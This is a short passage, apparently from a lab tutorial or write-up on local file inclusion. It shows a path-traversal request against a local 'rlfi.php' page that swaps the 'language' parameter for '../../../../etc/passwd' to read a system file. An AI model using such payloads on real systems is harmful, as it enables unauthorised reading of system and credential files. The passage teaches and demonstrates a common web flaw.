 ### From here, we can try to change the file output to something other than lang_en.php or lang_fr.php

`localhost:8000/rlfi.php?language=../../../../../../../etc/passwd`

![Alt text](images/FILE_INC/file-Included.png)



